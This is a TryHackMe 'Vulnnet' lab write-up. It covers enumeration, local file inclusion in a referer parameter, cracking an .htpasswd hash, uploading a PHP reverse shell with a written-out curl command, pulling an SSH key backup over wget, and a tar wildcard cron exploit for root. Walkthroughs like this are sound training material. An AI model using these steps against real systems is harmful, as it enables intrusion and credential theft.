 ```yaml
---
title: "TryHackMe: Vulnnet"
collection: publications
permalink: /publication/Vulnnet
excerpt: 'This is a free machine from TryHackMe'
date: 2023-04-07
venue: '04-27'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/vulnnet.png)

**Link :** [Vulnnet](https://tryhackme.com/room/vulnnet1)

---

## Enumeration : 

* You will have to add the machine IP with domain vulnnet.thm to your */etc/hosts* file.

* Let's scan the target :

```bash
# nmap -sC -sV -T4 -Pn 10.10.15.220
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-07 05:59 EST
Nmap scan report for vulnnet.thm (10.10.249.21)
Host is up (0.098s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ea:c9:e8:67:76:0a:3f:97:09:a7:d7:a6:63:ad:c1:2c (RSA)
|   256 0f:c8:f6:d3:8e:4c:ea:67:47:68:84:dc:1c:2b:2e:34 (ECDSA)
|_  256 05:53:99:fc:98:10:b5:c3:68:00:6c:29:41:da:a5:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: VulnNet
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

=> The scan reveals 2 open ports.

* Let's navigate to http://vulnnet.thm/

![vulnnet2](/images/vulnnet2.png)

* Inspecting the source code of the main page, we see 2 Javascripts file in /js directory.

![vulnnet3](/images/vulnnet3.png)

![vulnnet4](/images/vulnnet4.png)

* The first file reveals a subdomain, let's add it to */etc/hosts*

![vulnnet5](/images/vulnnet5.png)

* The second file reveals that the index.php page accepts a referer parameter.

![vulnnet6](/images/vulnnet6.png)

* Navigating to http://broadcast.vulnnet.thm prompts us with an authentication login screen, but since we don't any credentials we can do nothing with it.

* Let's check if the referer parameter is vulnerable to Local File Inclusion (LFI)

![vulnnet7](/images/vulnnet7.png)

* As you can see, we are able to read the content of /etc/passwd

* From the scan, we know that we're dealing with apache web server, by default the web config file is in /etc/apache2/sites-enabled/000-default.conf

> https://devm.io/open-source/apache2-install-config-169923

![vulnnet8](/images/vulnnet8.png)

* Bingo, we found the location of the .htpasswd that contains the credentials for http://broadcast.vulnnet.thm

![vulnnet9](/images/vulnnet9.png)

* We found the credentials, but we have to crack the password.


```bash
# john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
9972761*******   (developers)     
1g 0:00:00:28 DONE (2023-04-07 11:09) 0.03498g/s 75617p/s 75617c/s 75617C/s 9982..99686420
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

* After you navigate to http://broadcast.vulnnet.thm and enter the credentials, you should see this page.

![vulnnet10](/images/vulnnet10.png)

* As you can see the broadcast subdomain is running *ClipBucket* which is an open source video sharing.

* Let's search if there are any known exploits:

![vulnnet11](/images/vulnnet11.png)

* So the exploit is an unauthenticated file upload, so we can upload a reverse shell.

* The payload should be something like this :

```bash
# curl -F "file=@shell.php" -F "plupload=1" -F "name=shell.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:9972761*******
```

> shell.php: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

* The output reveals the file directory.

* Start your netcat listener and navigate to http://broadcast.vulnnet.thm/files/photos/your_directory

![vulnnet12](/images/vulnnet12.png)

* After you open the file in your browser, you will receive a connection.

![vulnnet13](/images/vulnnet13.png)

## Horizontal Privilege Escalation :

* If you check the */var/backups* directory you will find a file called ssh-backup.tar.gz

![vulnnet14](/images/vulnnet14.png)

* Open a python web server :

```bash
python -m http.server
```

* Download the file to your local machine:

```bash
wget http://X.X.X.X:8000/ssh-backup.tar.gz
```

* Uncompress the archive :

```bash
tar -xf ssh-backup.tar.gz
```

* Now we have the private key but we don't have a username, so let's check the home directory

![vulnnet17](/images/vulnnet17.png)

* We still have a problem because the ssh privte key is protected with a passphrase

![vulnnet15](/images/vulnnet15.png)

* Use ssh2john tool and try to brute force the passphrase with john

![vulnnet16](/images/vulnnet16.png)

* Now we can login using ssh.

![vulnnet18](/images/vulnnet18.png)


## Vertical Privilege Escalation :

* You will find a cronjob run by root every two minutes

![vulnnet19](/images/vulnnet19.png)

* Let's read the *backupsrv.sh*

![vulnnet20](/images/vulnnet20.png)

* As you can see the script is backing up all the files in the Documents folder using tar, the is a wildcard vulnerability.

>https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c

* The exploit :

![vulnnet21](/images/vulnnet21.png)

* Start a netcat listener and wait 2 minutes to get the root shell

![vulnnet22](/images/vulnnet22.png)





